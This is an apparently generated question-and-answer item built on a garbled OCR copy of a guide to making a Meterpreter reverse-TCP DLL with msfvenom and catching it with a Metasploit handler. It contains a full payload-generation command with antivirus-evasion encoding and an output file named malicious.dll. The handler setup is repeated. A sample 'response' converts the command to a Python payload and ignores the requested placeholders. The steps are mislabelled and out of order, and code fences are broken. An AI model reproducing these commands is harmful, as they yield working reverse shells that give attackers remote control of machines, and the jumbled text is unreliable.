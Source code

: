 Context:```

`

# How to generate a dll with msfvenom
This command uses `msfvenom` to create a DLL payload that establishes a reverse TCP connection to the specified attacker's IP and port.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f dll -e x86/shikata_ga_nai -i 5 -o malicious.dll
### Step 1: Generate the executable payload

On the attacker's box, run `

`bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```

### Step 2: Copy the executable payload to box B
### Step 3: Set up the payload handler on box A
Box A is the attacker machine.
```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

 Question: Generate a command using Metasploit’s msfvenom to create a Windows DLL payload for a reverse TCP connection, specifying the (windows/meterpreter/reverse_tcp) payload with placeholders for LHOST and LPORT. After structuring the command, modify it to change the output format from "dll" to "py" and set the output file name to "malicious.py". 

 Your response: 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f py -e x86/shikata_ga_nai -i 5 -o malicious.py
```